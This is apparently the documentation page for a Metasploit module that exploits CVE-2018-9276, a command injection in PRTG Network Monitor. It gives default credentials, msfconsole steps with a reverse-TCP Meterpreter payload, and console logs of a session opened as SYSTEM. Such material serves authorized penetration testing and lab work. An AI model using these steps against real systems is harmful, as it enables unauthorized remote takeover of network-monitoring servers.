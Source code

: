## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in PRTG Network Monitor product (CVE-2018-9276).

Notifications can be created by an authenticated user and can execute scripts when triggered. Due to a poorly validated input on the script name, it is possible to chain it with a user-supplied command, allowing command execution under the context of privileged user.

The module uses provided credentials to log in to the web interface, then creates and triggers a malicious notification to perform RCE using a Powershell payload.

This vulnerability affects versions prior to 18.2.39.

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

While a version history can be found on the vendor's website (https://www.paessler.com/prtg/history) it does not provide any download link. The solution I found to get old versions was to Google "PRTG Network Monitor 18 trial download" and hopefully found archived trial versions to download (ex : https://prtg-network-monitor.informer.com/versions/). There were not coming from the official website and no hash was provided by the vendor to verify the file integrity, so I made sure to execute them in a sandboxed environment.

Once downloaded the setup is pretty straightforward, a trial link to PRTG website is provided for a free trial license key to enter. Once deployed the service is available on port 80 with the default credentials `prtgadmin`/`prtgadmin`. Any configuration can be made through the web interface or with `PRTG Enterprise Console` (automatically installed). Note that you may need to wait a few minutes for the setup to complete totally.

PRTG Network Monitor is also available on the "Netmon" lab from Hack The Box, it is quite useful for testing because easy to deploy and reset, but requires a premium account (10£/month).

**Successfully tested on**

- PRTG Network Monitor 18.1.38.11958 on Windows 2012 R2 x64 (downloaded from https://prtg-network-monitor.informer.com/18.1)
- PRTG Network Monitor 18.1.37.13946 on Windows 2016+ x64 (on the Hack The Box machine)

## Verification Steps
1. Install the application
1. Start `msfconsole`
1. Do: `use exploit/windows/http/prtg_authenticated_rce`
1. Do: `set PAYLOAD windows/meterpreter/reverse_tcp`
1. Do: set `RHOST`, `LHOST` and HTTP-specific parameters if needed
1. Do: set `ADMIN_USERNAME` and `ADMIN_PASSWORD` with PRTG Network Monitor credentials (default `prtgadmin`/`prtgadmin`)
1. Do: `chek` 
1. **Verify** that you are seeing `The target is vulnerable.` in console.
1. Do: `run` 
1. **Verify** that you are seeing success logs in console (successfully logged in, created notification, etc..)
1. **Verify** that you are seeing `Sending stage to <TARGET>` in console.
1. You should get a shell

In my experience steps 10-12 may require a few tries to work because notifications are queued up before execution on the server. Augmenting `WfsDelay` to 30 seconds did the trick, so it is set by default.

## Options
**ADMIN_USERNAME**

PRTG Network Monitor's account that has the right to create Notifications (allowed by default on the initial account).

**ADMIN_PASSWORD**

The password associated with the specified username.

**VERBOSE**

Setting `VERBOSE` to `true` displays the raw Powershell payload in console for manual testing.

## Scenarios
Checking if a target is vulnerable based on the version in use :

```
msf > use exploit/windows/http/prtg_authenticated_rce 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set VERBOSE true
VERBOSE => true
msf exploit(windows/http/prtg_authenticated_rce) > check

[*] Identified PRTG Network Monitor Version 18.1.37.13946
[*] x.x.x.x:80 - The target appears to be vulnerable.
```

Getting a shell on PRTG Network Monitor using a sufficiently privileged account credentials :

```
msf > use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf exploit(windows/http/prtg_authenticated_rce) > run

[*] Started reverse TCP handler on y.y.y.y:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=zzzz)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to x.x.x.x
[*] Meterpreter session 1 opened (y.y.y.y:4444 -> x.x.x.x:49223) at 2021-01-18 11:04:22 +0100

meterpreter > getuid
Server username: AUTORITE NT\System
```
